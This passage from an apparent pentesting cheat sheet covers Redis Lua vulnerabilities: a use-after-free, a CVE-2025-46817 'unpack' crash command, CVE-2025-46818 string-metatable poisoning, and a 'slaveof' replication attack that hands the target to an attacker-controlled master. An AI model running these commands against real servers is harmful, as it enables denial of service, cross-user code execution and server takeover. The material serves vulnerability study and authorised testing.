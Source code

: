 Notes:
- Multiple attempts may be required to align GC with luaY_parser. A crash indicates the UAF was hit.
- From exploitation to RCE requires memory grooming and native code pivoting beyond the Redis Lua sandbox.

**CVE-2025-46817 — Integer overflow in unpack (`lbaselib.c: luaB_unpack`)**
- Root cause: The count `n = e - i + 1` is computed without unsigned casts, so extreme indices wrap, making Lua attempt to unpack far more elements than exist → stack corruption and memory exhaustion.
- PoC (DoS/mem exhaustion):
```bash
redis-cli -h <host> -p 6379 -a <password> EVAL "return unpack({'a','b','c'}, -1, 2147483647)" 0
```
- Expect the server to try returning an enormous number of values and eventually crash or OOM.

**CVE-2025-46818 — Cross-user privilege escalation via basic type metatables**
- Root cause: On engine initialization, metatables for basic types (e.g., strings, booleans) weren’t set read-only. Any authenticated user can poison them to inject methods other users might call later.
- Example (string metatable poisoning):
```bash
# Inject a method on strings and then exercise it
redis-cli -h <host> -p 6379 -a <password> EVAL "\
getmetatable('').__index = function(_, key) \
  if key == 'testfunc' then \
    return function() return 'testfuncoutput' end \
  end \
end; \
return ('teststring').testfunc()" 0
# → Returns: testfuncoutput
```
- Impact: Cross-user code execution inside the Lua sandbox using the victim’s Redis permissions. Useful for lateral movement/priv-esc within Redis ACL contexts.

### Master-Slave Module

​The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```

## SSRF talking to Redis

